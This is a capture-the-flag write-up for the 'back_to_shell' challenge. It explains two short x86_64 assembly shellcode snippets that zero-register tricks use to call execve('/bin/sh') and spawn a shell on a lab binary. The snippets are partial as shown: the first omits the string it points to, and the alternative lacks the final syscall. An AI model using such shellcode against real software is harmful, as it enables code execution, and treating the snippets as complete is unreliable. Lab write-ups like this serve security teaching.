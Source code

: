 # back_to_shell
The goal is to "pop a shell with all the registers at zero" in order to read the flag.

## Context
- The shellcode is read from `stdin` and placed into the `rax` register for execution.
- The binary zeroes out all registers (as observed in GDB).

## Approach
A simple shellcode is needed to invoke a shell using the execve("/bin/sh", NULL, NULL):
```{asm}
mov rdi, rax     ; move the content of rax (shellcode address) into rdi
add rdi, 19      ; adjust the pointer by 19 to point to the string "/bin/sh"
xor rax, rax     ; clear rax
mov rax, 0x3b    ; 0x3b is the syscall number for execve in Linux x86_64
syscall          ; execute the syscall
```

- We add 19 to `rdi` to adjust the pointer, which has been moved by the shellcode itself. 19 is the offset between the start of the shellcode and the string "/bin/sh".
- We trigger a system call using the syscall number in `rax` and the arguments in the appropriate registers. Since the registers are initially zeroed by the binary, both `rsi` and `rdx` (second and third arguments of execve) are already NULL.

## Alternative solution
Another approach is to push the string /bin/sh directly onto the stack, like this:
```{asm}
xor rax, rax                     
mov rax, 0x3b                    
mov rdi, 0x0068732f6e69622f    ; move "reversed" /bin/sh into rdi  
push rdi                       ; pushes /bin/sh onto the stack.
mov rdi, rsp                   ; points rdi to the location of /bin/sh on the stack.
```
- To push it correctly onto the stack, the bytes of "/bin/sh" must be reversed since the system uses little-endian byte ordering.
